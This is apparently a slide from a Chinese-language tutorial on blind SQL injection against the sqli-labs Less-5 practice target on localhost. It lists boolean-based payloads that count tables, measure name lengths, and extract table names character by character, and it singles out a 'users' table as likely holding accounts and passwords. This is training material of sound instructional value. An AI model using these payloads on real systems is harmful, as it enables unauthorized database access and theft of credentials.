

SQL注入漏洞-盲注
3）猜解数据库表名和列名

1：判断当前数据库中表的个数
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>3 --+

2：判断每个表的长度
http://127.0.0.1/sqli/Less-5/?id=1‘ and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>6 --+

3：判断每个表名的每个字符的ascii值
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100 --+

http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))>100 --+
.........
由此可判断出存在表 emails、referers、uagents、users ，猜测users表中最有可能存在账户和密码，所以以下判断字段和数据在 users 表中判断